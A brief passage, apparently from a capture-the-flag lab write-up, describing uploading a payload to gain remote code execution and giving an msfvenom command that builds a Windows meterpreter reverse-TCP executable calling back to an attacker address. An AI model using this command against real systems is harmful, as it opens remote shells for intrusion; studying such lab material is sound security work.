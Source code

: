 ![web_result](images/Analysis9.png)

We will upload msfvenom payload to gain RCE (I tried to post rev_shell and because of _ it blocked it so don't use any symbols):

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.61 LPORT=7777 -f exe > revshell.exe
```
